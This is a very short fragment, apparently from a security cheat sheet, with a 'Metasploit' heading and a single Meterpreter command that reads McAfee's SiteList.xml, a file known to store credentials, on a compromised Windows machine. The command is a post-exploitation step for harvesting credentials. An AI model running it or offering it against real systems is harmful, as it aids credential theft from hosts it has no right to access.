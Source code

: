 # Metasploit

`meterpreter > cat "%AllUsersProfile%\Application Data\McAfee\Common Framework\SiteList.xml"`